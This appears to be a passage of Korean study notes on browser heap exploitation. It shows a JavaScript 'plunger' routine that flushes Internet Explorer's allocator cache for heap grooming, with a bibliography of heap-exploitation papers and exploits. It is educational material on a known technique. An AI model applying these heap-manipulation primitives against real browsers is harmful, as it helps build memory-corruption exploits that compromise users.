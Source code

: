 ```
    return HeapAlloc(GetProcessHeap(), 0, size);
}
```

APP_DATA memory allocator 가 사용하는 caching algorithm 이 방해가 되는 상황. Plunger 테크닉으로 극복.

#### Plunger technique

``` javascript
plunger = new Array();

// This function flushes out all blocks in the cache and leaves it empty

function flushCache() {
    
    // Free all blocks in the plunger array to push all smaller blocks out

    plunger = null;
    CollectGarbage();

    // Allocate 6 maximum size blocks from each bin and leave the cache empty

    plunger = new Array();

    for (i = 0; i < 6; i++) {
        plunger.push(alloc(32));
        plunger.push(alloc(64));
        plunger.push(alloc(256));
        plunger.push(alloc(32768));
    }
}

flushCache(); // Flush the cache before doing any allocations
alloc_str(0x200); // Allocate the string
free_str(); // Free the string and flush the cache
flushCache();
```


### Bibliography

* [Windows Vista Heap Management Enhancements by Adrian Marinescu](http://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Marinescu.pdf)
* [Third Generation Exploitation by Halvar Flake](http://www.blackhat.com/presentations/win-usa-02/halvarflake-winsec02.ppt)
* [Windows Heap Overflows by David Litchfield](http://www.blackhat.com/presentations/win-usa-04/bh-win-04-litchfield/bh-win-04-litchfield.ppt)
* [XP SP2 Heap Exploitation by Matt Conover](http://www.cybertech.net/~sh0ksh0k/projects/winheap/XPSP2 Heap Exploitation.ppt)
* [Bypassing Windows heap protections by Nicolas Falliere](http://packetstormsecurity.nl/papers/bypass/bypassing-win-heap-protections.pdf)
* [Defeating Microsoft Windows XP SP2 Heap Protection and DEP bypass by Alexander Anisimov](http://www.maxpatrol.com/defeating-xpsp2-heap-protection.pdf)
* [Exploiting Freelist[0] on XP SP2 by Brett Moore](http://www.security-assessment.com/Whitepapers/Exploiting_Freelist[0]_On_XPSP2.zip)
* [How Do The Script Garbage Collectors Work? by Eric Lippert](http://blogs.msdn.com/ericlippert/archive/2003/09/17/53038.aspx)
* [Internet Explorer IFRAME exploit by SkyLined](http://www.edup.tudelft.nl/~bjwever/advisory_iframe.html.php)
* [ie_webview_setslice exploit by H D Moore](http://metasploit.com/projects/Framework/exploits.html#ie_webview_setslice)
